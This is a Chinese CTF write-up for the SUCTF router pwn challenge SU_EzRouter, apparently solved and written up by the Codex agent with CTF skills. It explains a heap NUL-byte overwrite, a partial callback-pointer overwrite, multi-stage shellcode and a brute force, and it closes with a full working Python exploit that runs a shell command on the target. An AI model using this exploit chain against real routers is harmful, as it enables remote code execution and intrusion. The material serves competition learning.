

# 基于AI-agent的一次CTF实战(二进制)

###### 赛事

SUCTF

###### 赛题

SU_EzRouter

## Agent的调用（codex)

##### 首先我们理解一下agent的工作

你可以把 Codex 想象成一个能力超强的“AI软件工程师”，而 Skills 和 MCP 就是它用来感知世界和执行任务的“双手”和“工具箱”。

##### skills

- 基于**思维链**推理，Codex会将你的需求拆解成子任务
- 然后在本地的Skill仓库中做**向量相似度检索**，找到与当前子任务最匹配的Skill（比如计算你描述的"React项目"与Skill元数据的语义相似度）
- 匹配成功后，Codex**动态加载**该Skill的SKILL.md，把里面的步骤插入到当前对话的上下文窗口
- 执行时采用**ReAct（Reason+Act）模式**：每执行一步，观察结果，再决定下一步，直到剧本完成

##### mcp

- MCP基于**JSON-RPC 2.0**协议进行通信
- Codex启动时会读取配置，通过**stdio或SSE**与MCP服务器建立长连接
- 调用时，Codex向MCP Server发送工具调用请求（包含工具名和参数）
- MCP Server在**隔离的沙盒环境**中执行操作（如文件读写、Git操作），返回结构化结果
- 这个结果会被Codex重新喂给大模型，进行下一轮推理——形成**模型调用工具→工具返回结果→模型继续推理**的闭环




## 解题

##### 工具调用

codex ---->加载(ctf-web skill,ctf-pwn skills,ctf-reverse skills)______进入题目流程——调用IDAPROmcp__---->自动动态调试----->获取flag---->生成writeup(加载ctf-pwn skills和ctf-writeup-generator skills)

> Tips
>
> 以下wp由ctf-pwn skills和ctf-writeup-generator skills产出

#### SU_EzRouter

**日期**: 2026-03-15  
**题型**: Web / Pwn 混合  
**核心技巧**: IPC 后端劫持、heap grooming、one-byte partial overwrite、分级 shellcode  
**最终 Flag**: `SUCTF{ExCeED_4UThOR1Ty_W1tH_1pc}`

### 题目概览

这题表面上是一个路由器后台网页，实际核心利用点不在前端 CGI 本身，而在它们通过消息队列通信的后端进程 `mainproc`。

整体链路如下：

1. 先通过网页登录拿到合法 `session_id`。
2. 通过 `wifi.cgi` 和 `list.cgi` 做 heap grooming。
3. 通过 `vpn.cgi` 的 `set` 操作触发一个单字节空字节覆盖，把 `custom_ptr` 的低字节清零。
4. 这个清零后的 `custom_ptr` 正好折回到 `vpn_list` 结构体内部。
5. 再用 `vpn.cgi` 的 `edit` 操作把这个“坏掉的指针”变成任意定点写。
6. 只改 callback 指针低 2 字节，保留 PIE 高位，跳到一个 `jmp rdi` 中间 gadget。
7. 控制流先落到 `vpn_list` 头部，再跳到 `cert` 里的小跳板，再跳到 `server` 里的 stage1，最后跳到真正的 `custom` shellcode。
8. 远程 shellcode 把 flag 写到 Web 可读页面，再回 HTTP 读出。

最后用`onebyte-partial`，就是：

- 先用单字节 `NUL` 覆盖把写指针折回结构体内部。
- 再只做低 2 字节 partial overwrite，利用 PIE 页对齐把爆破空间压到 16 种可能。

#### 远程入口与认证

远程地址：

```text
http://web-xxxxxxxxx.adworld.xctf.org.cn:80/
```

从固件里可以直接提取出登录凭据：

```text
username = normaluser
password = yhyyyyyyyyyyyhyhuityrscdn
```

登录流程是：

1. `POST /cgi-bin/login.cgi`
2. 返回 `302` 到 `/www/http?auth=1&action=login`
3. 再访问这个地址，服务端下发 `session_id`
4. 带着 cookie 访问 `/control.html`

这一层没有什么利用难点，重点只是先拿到合法会话。

#### 程序结构与关键函数

CGI 程序不是直接处理所有逻辑，而是把请求组织成消息发给 `mainproc`。`mainproc` 里和本题相关的关键函数主要有：

- `Set_VPN`
- `Edit_VPN_Custom`
- `Apply_VPN`
- `default_vpn_apply`

其中最重要的是下面三段逻辑。

##### 1. `Set_VPN`

逆向后可以整理为：

```c
vpn_list = malloc(0xF0);

n = strlen(msg + 229);                 // custom 的长度
*(uint16_t *)vpn_list = n;             // +0x00 custom_strlen

if (n) {
    *(uint64_t *)(vpn_list + 0xE8) = malloc(n + 1);
    memcpy(*(void **)(vpn_list + 0xE8), msg + 229, n);
    *(*(char **)(vpn_list + 0xE8) + n) = 0;
} else {
    *(uint64_t *)(vpn_list + 0xE8) = 0;
}

*(uint64_t *)(vpn_list + 0x10) = default_vpn_apply;

strcpy(vpn_list + 0x18, msg + 0x0c);   // action
strcpy(vpn_list + 0x38, msg + 0x2c);   // name
strcpy(vpn_list + 0x58, msg + 0x4c);   // proto
strcpy(vpn_list + 0x78, msg + 0x6c);   // server
strcpy(vpn_list + 0xA8, msg + 0x9c);   // user
strcpy(vpn_list + 0xC8, msg + 0xbc);   // pass

*(uint64_t *)(vpn_list + 0x08) = *(uint64_t *)(msg + 220);   // cert
```

结构体关键偏移可以记成：

```text
+0x00  uint16_t custom_strlen
+0x08  uint64_t cert_qword
+0x10  callback
+0x18  action
+0x38  name
+0x58  proto
+0x78  server
+0xA8  user
+0xC8  pass
+0xE8  custom_ptr
```

##### 2. `Edit_VPN_Custom`

这个函数是后续写原语的核心：

```c
memcpy(vpn_list->custom_ptr, msg + 0xc,
       min(msg_len, vpn_list->custom_strlen));
```

也就是说，一旦能把 `custom_ptr` 改成指向结构体内部，我们就能把 `edit` 操作变成对结构体本身的定点覆盖。

##### 3. `Apply_VPN`

调用逻辑非常短：

```c
if (vpn_list && *(uint64_t *)(vpn_list + 0x10)) {
    (*(void (**)(long))(vpn_list + 0x10))(vpn_list);
}
```

这个 call site 有个很关键的细节：

- `rdi = vpn_list`
- `rax = vpn_list`

所以如果我们能把 callback 改成 `jmp rdi` 或 `jmp rax` 一类 gadget，就能直接把执行流送进结构体本身。

#### 第一层漏洞：单字节 `NUL` 覆盖

漏洞点出在 `Set_VPN` 最后一次 `strcpy`：

```c
strcpy(vpn_list + 0xC8, pass);
```

这里 `pass` 字段的起始偏移是 `+0xC8`，长度窗口到 `custom_ptr` 的首字节刚好是 `0x20`。

所以只要满足：

- `pass` 恰好是 `0x20` 个非零字节
- `cert[0] == 0`

那么 `strcpy` 复制完 32 个字节后，结尾的 `\x00` 会精确落到：

```text
vpn_list + 0xE8
```

也就是 `custom_ptr` 的最低字节。

这不是完整任意写，只是把指针的低字节清零。但如果堆布局合适，这一个字节就足够把 `custom_ptr` 从原来的堆 chunk 地址“折回”结构体内部。

#### 第二层：heap grooming 让 `custom_ptr` 折回 callback 槽

单字节清零能折到哪里，完全取决于 `vpn_list` 和 `custom` chunk 的堆布局。

本地验证后，最关键的一组 grooming 是：

```text
wifi save x1
add_white x3
```

对应现象是：

- `vpn_list` 的低字节稳定到 `0xf0`
- `custom_ptr` 原本指向 `vpn_list + 0x100`
- 低字节被清零以后，`custom_ptr` 变成 `vpn_list + 0x10`

也就是：

```text
custom_ptr -> callback 槽
```

这一点非常重要。因为这意味着后面的：

```c
memcpy(vpn_list->custom_ptr, ...)
```

实际上会写到：

```text
vpn_list + 0x10
```

从而变成对 callback 指针的覆盖。

#### 为什么这里必须用 raw custom，而不是 `B64:`

一开始很容易想到用 `custom="B64:..."` 来塞 shellcode，因为这样更方便传二进制。

但这题如果想让控制流先从 `vpn_list` 头部开始执行，必须让结构体最前面的两个字节变成一个可用短跳。

`custom_strlen` 存在 `vpn_list + 0x00`，所以我们希望：

```text
custom_strlen = 0x07eb
```

这样头两个字节就是：

```asm
eb 07
```

也就是：

```asm
jmp +7
```

这能让执行流从结构体开头直接跳过无用的零字节，落到后面的跳板代码。

问题在于：

- 如果用 `B64:`，`custom_strlen` 记录的是 JSON 里这段字符串的长度
- 它不是解码后的长度
- 而且 `B64:` 本身会额外带来 `+4`
- base64 长度还会按 4 对齐

于是很难精确做成 `0x07eb`。

解决方式是直接使用原始 `custom` 字符串，并利用 `vpn.cgi` 支持的 `\xNN` 转义来送任意字节。这样：

- shellcode 实际内容可控
- `custom_strlen` 也能被精确控制成 `0x07eb`

#### 整体控制流设计

最终采用的是 4 段式跳转：

```text
callback
  -> jmp rdi
  -> vpn_list 头部
  -> cert 跳板
  -> server stage1
  -> custom stage2
```

下面按段说明。

#### 第一跳：callback -> `jmp rdi`

callback 初始值是 `default_vpn_apply`。

我们不能直接用 `edit` 长写把整个 callback 改成目标地址，因为这样会把 PIE 高字节一起覆盖掉，远程没有泄露就没法恢复。

所以只能做 partial overwrite，只改 callback 的低 2 字节。

目标是命中一个中间 gadget：

```asm
jmp rdi
```

这样执行流就会跳到：

```text
rdi = vpn_list
```

#### 第二跳：`vpn_list` 头部 -> `cert` 跳板

前面已经把：

```text
custom_strlen = 0x07eb
```

于是结构体开头就是：

```asm
eb 07    jmp +7
```

而 `vpn_list + 0x02` 到 `vpn_list + 0x07` 大部分是零，刚好被这条短跳跳过去。

跳到 `vpn_list + 0x09` 以后，正好落在 `cert_qword` 内部，所以把 `cert` 设计成：

```asm
00 48 8d 47 78 ff e0 90
```

真正执行的是从偏移 `+1` 开始的部分：

```asm
48 8d 47 78    lea rax, [rdi+0x78]
ff e0          jmp rax
```

也就是把执行流送到：

```text
vpn_list + 0x78
```

那里正好是 `server` 字段。

#### 第三跳：`server` stage1 -> `custom`

`server` 字段放一个很短的跳板：

```asm
48 89 f8       mov rax, rdi
fe c4          inc ah
ff e0          jmp rax
```

这里的核心是 `inc ah`。

在这条指令执行前：

```text
rax = vpn_list
```

而真实的 `custom` 缓冲区在这组堆布局下是：

```text
vpn_list + 0x100
```

对寄存器高 8 位中的 `ah` 做 `+1`，效果就是给 `rax` 加上 `0x100`，于是：

```text
rax: vpn_list -> vpn_list + 0x100
```

接着 `jmp rax` 就进入真正的 shellcode。

#### 第四跳：`custom` stage2

最后的 stage2 shellcode 放在 `custom` 堆 chunk 里。

远程最终使用的命令是：

```sh
find / -maxdepth 3 -name 'flag*' -type f 2>/dev/null | \
while read f; do echo ==== $f ====; cat $f; done >/app/www/control.html
```

考虑点有两个：

1. `/control.html` 是登录后可读页面
2. 直接写 `/flag.txt`、`/www/flag.txt` 这类路径会被 Web 层拒绝访问，回读不稳定

把结果直接覆盖 `control.html` 最稳。

#### one-byte partial 的真正爆破点

这题最关键的地方在于：虽然只改 callback 的低 2 字节，但我们并不需要爆破全部 65536 种。

因为目标进程是 PIE，而 PIE 基址页对齐，所以：

```text
base_low12 = 0
```

目标 gadget 地址是：

```text
target = base + 0x1c21
```

因此：

```text
target_low16 = (base_low16 + 0x1c21) & 0xffff
```

由于 `base_low12` 固定为 0，目标地址的最低字节总是：

```text
0x21
```

只有第二字节会随着 `base_low16` 的高 4 位变化：

```text
0x0c, 0x1c, 0x2c, 0x3c,
0x4c, 0x5c, 0x6c, 0x7c,
0x8c, 0x9c, 0xac, 0xbc,
0xcc, 0xdc, 0xec, 0xfc
```

也就是说，真正要爆破的只是这 16 个值。

所以每一轮 `edit` 只需要写：

```text
\x21\x??
```

其中 `??` 从上面这 16 个候选值里枚举即可。

 “onebyte-partial” 的精髓：不是盲改整个地址，而是利用页对齐把不确定性压缩到很小的空间。

#### 为什么可以一直爆破：`restart.sh`

如果 callback 第二字节猜错，`Apply_VPN` 调 callback 时会直接把 `mainproc` 打崩。

题目环境里有一个现成的恢复入口：

```text
/cgi-bin/restart.sh
```

这个脚本会：

- 杀掉旧的 `mainproc`
- 清理消息队列
- 重新启动 `mainproc`

它的 HTTP 响应经常超时，但这不影响它实际执行。实战里可以把它当成：

```text
fire-and-forget 重启按钮
```

只要调用完稍等几秒，就能继续下一轮猜测。

#### 远程利用脚本说明

最终脚本是 [exploit_remote.py](/mnt/c/Users/Alexander/Desktop/supwn2/exploit_remote.py)。

它做的事情如下：

1. 登录并获取 `session_id`
2. 调 `restart.sh` 重启后端
3. `wifi save` 一次
4. `add_white` 三次，完成 heap grooming
5. 用精心构造的 `vpn set` 建立目标结构体和多级跳板
6. 用 `vpn edit` 只改 callback 低 2 字节
7. `vpn apply` 触发 callback
8. 回读 `/control.html`
9. 如果页面已经不再是原来的后台 HTML，而是 shell 命令输出，说明命中成功

核心构造如下。

##### `set` 包里的关键字段

```text
pass   = "C" * 0x20
cert   = 00 48 8d 47 78 ff e0 90
server = 48 89 f8 fe c4 ff e0
custom = 原始 shellcode，长度精确为 0x7eb
```

##### `edit` 包

只发 2 个字节：

```text
21 ??    // 低字节固定 0x21，第二字节做 16 选 1 爆破
```

#### 成功判定

脚本通过判断 `/control.html` 是否还包含原始后台页面特征：

- `<!doctype html>`
- `enterprise gateway`

如果这些特征消失，并且页面内容变成 shell 输出，就说明利用成功。

#### 实战结果

远程脚本命中后，`control.html` 的内容变成：

```text
==== /app/flag ====
SUCTF{ExCeED_4UThOR1Ty_W1tH_1pc}
```

最终得到 flag：

```text
SUCTF{ExCeED_4UThOR1Ty_W1tH_1pc}
```

#### 这题最容易踩的坑

##### 1. 误以为可以长写 callback

如果 `custom_ptr` 已经折到 callback 槽，再用长数据去覆盖 callback，确实能把低字节改掉，但也会把高字节一起冲掉。

本地有泄露时可以直接精确写完整地址，远程没有泄露就不行。

所以远程必须走 partial overwrite。

##### 2. 误以为 `custom_strlen` 是解码后的长度

如果使用 `B64:`，`custom_strlen` 记录的是 JSON 里这段字符串的长度，不是 base64 解码后的实际 shellcode 长度。

这样就很难把结构体开头做成 `eb 07`。

##### 3. 第二字节不是固定 `0x1c`

一开始很容易以为目标 gadget 就是文件偏移 `0x1c21`，所以直接写：

```text
21 1c
```

这是不对的。

真正应该改的是：

```text
(base + 0x1c21) & 0xffff
```

因为 PIE 基址参与了低 16 位计算，所以第二字节必须爆破。

#### 4. `restart.sh` 超时不代表失败

远程调用时经常直接超时，但过几秒后 `mainproc` 实际上已经恢复了。

如果因为超时就误判成“不能重启”，会白白绕远路。

#### 总结

这题的利用链并不依赖复杂的 libc 技巧，核心是把几个看起来都不大的点串起来：

- 一个单字节 `NUL` 覆盖
- 一组可重复的 heap grooming
- 一个结构体内部回写
- 一个只改低 2 字节的 partial overwrite
- PIE 页对齐带来的 16 次小爆破
- 多段短跳板把执行流送进可执行堆 shellcode

如果把这些点分别看，单独都不算很重；但连起来以后就是一条非常典型、也非常适合 CTF 的精细利用链。

生成文件：exploit_remote.py

```
#!/usr/bin/env python3
import argparse
import random
import re
import time

import requests
from pwn import asm, context, shellcraft


context.clear(arch="amd64")

BASE_URL = ""
USERNAME = "normaluser"
PASSWORD = "yhyyyyyyyyyyyhyhuityrscdn"
CUSTOM_LEN = 0x7EB
SECOND_BYTE_CHOICES = [((i << 4) | 0x0C) & 0xFF for i in range(16)]


def escape_bytes(blob: bytes) -> bytes:
    return "".join(f"\\x{b:02x}" for b in blob).encode()


def build_stage2(command: str) -> bytes:
    shellcode = asm(shellcraft.execve("/bin/sh", ["sh", "-c", command], 0))
    bad = [b"\x00", b'"', b"\\"]
    if any(token in shellcode for token in bad):
        raise ValueError("generated shellcode contains a blocked byte")
    return shellcode.ljust(CUSTOM_LEN, b"\x90")


def build_set_body(command: str) -> bytes:
    custom = build_stage2(command)
    server_stage = bytes.fromhex("4889f8fec4ffe0") + b"A" * (48 - 7)
    user_stage = b"B" * 32
    pass_stage = b"C" * 32
    cert = bytes.fromhex("00488d4778ffe090")
    return (
        b'{"action":"set","name":"N","proto":"P","server":"'
        + escape_bytes(server_stage)
        + b'","user":"'
        + escape_bytes(user_stage)
        + b'","pass":"'
        + pass_stage
        + b'","custom":"'
        + escape_bytes(custom)
        + b'","cert":"'
        + escape_bytes(cert)
        + b'"}'
    )


def build_edit_body(second_byte: int) -> bytes:
    return b'{"action":"edit","custom":"' + escape_bytes(bytes([0x21, second_byte])) + b'"}'


def login(sess: requests.Session, base_url: str) -> None:
    resp = sess.post(
        f"{base_url}/cgi-bin/login.cgi",
        data={"username": USERNAME, "password": PASSWORD},
        allow_redirects=False,
        timeout=10,
    )
    resp.raise_for_status()
    resp = sess.get(
        f"{base_url}/www/http?auth=1&action=login",
        allow_redirects=False,
        timeout=10,
    )
    resp.raise_for_status()
    if "session_id" not in sess.cookies:
        raise RuntimeError("login did not produce a session cookie")


def restart_mainproc(sess: requests.Session, base_url: str, delay: float) -> None:
    try:
        sess.get(f"{base_url}/cgi-bin/restart.sh", timeout=3)
    except requests.RequestException:
        pass
    time.sleep(delay)


def post_form(sess: requests.Session, base_url: str, path: str, data: dict) -> str:
    resp = sess.post(f"{base_url}{path}", data=data, timeout=10)
    resp.raise_for_status()
    return resp.text


def post_json_bytes(sess: requests.Session, base_url: str, path: str, body: bytes) -> str:
    resp = sess.post(
        f"{base_url}{path}",
        data=body,
        headers={"Content-Type": "application/json"},
        timeout=10,
    )
    resp.raise_for_status()
    return resp.text


def trigger_guess(
    sess: requests.Session,
    base_url: str,
    set_body: bytes,
    second_byte: int,
) -> None:
    post_form(
        sess,
        base_url,
        "/cgi-bin/wifi.cgi",
        {"action": "save", "ssid": "SSID", "password": "PASS"},
    )
    for idx in range(3):
        post_form(
            sess,
            base_url,
            "/cgi-bin/list.cgi",
            {
                "action": "add_white",
                "idx": str(idx),
                "mac": f"11:22:33:44:55:{idx:02x}",
                "note": "X",
            },
        )
    post_json_bytes(sess, base_url, "/cgi-bin/vpn.cgi", set_body)
    post_json_bytes(sess, base_url, "/cgi-bin/vpn.cgi", build_edit_body(second_byte))
    post_json_bytes(
        sess,
        base_url,
        "/cgi-bin/vpn.cgi",
        b'{"action":"apply","name":"x"}',
    )


def fetch_control(sess: requests.Session, base_url: str) -> str:
    resp = sess.get(f"{base_url}/control.html", timeout=10)
    resp.raise_for_status()
    return resp.text


def looks_like_success(text: str) -> bool:
    lowered = text.lower()
    return "<!doctype html>" not in lowered and "enterprise gateway" not in lowered


def extract_flag(text: str) -> str | None:
    match = re.search(r"[A-Za-z0-9_]+\{[^{}\n\r]+\}", text)
    return match.group(0) if match else None


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument("--base-url", default=BASE_URL)
    parser.add_argument("--delay", type=float, default=5.0)
    parser.add_argument("--max-attempts", type=int, default=64)
    parser.add_argument(
        "--command",
        default=(
            "find / -maxdepth 3 -name 'flag*' -type f 2>/dev/null | "
            "while read f; do echo ==== $f ====; cat $f; done >/app/www/control.html"
        ),
    )
    args = parser.parse_args()

    set_body = build_set_body(args.command)
    order = SECOND_BYTE_CHOICES[:]
    rng = random.Random()

    for attempt in range(1, args.max_attempts + 1):
        second_byte = order[(attempt - 1) % len(order)]
        if attempt % len(order) == 1:
            rng.shuffle(order)
            second_byte = order[0]

        sess = requests.Session()
        login(sess, args.base_url)
        restart_mainproc(sess, args.base_url, args.delay)
        print(
            f"[+] attempt {attempt}: editing callback low bytes -> 0x21 {second_byte:02x}",
            flush=True,
        )

        try:
            trigger_guess(sess, args.base_url, set_body, second_byte)
        except requests.RequestException as exc:
            print(f"[-] request failed during attempt {attempt}: {exc}", flush=True)
            continue

        time.sleep(1.0)
        control = fetch_control(sess, args.base_url)
        if looks_like_success(control):
            print("[+] control.html changed; likely code execution", flush=True)
            print(control)
            flag = extract_flag(control)
            if flag:
                print(f"[+] flag: {flag}", flush=True)
            return

    raise SystemExit("exhausted attempts without a visible success")


if __name__ == "__main__":
    main()

```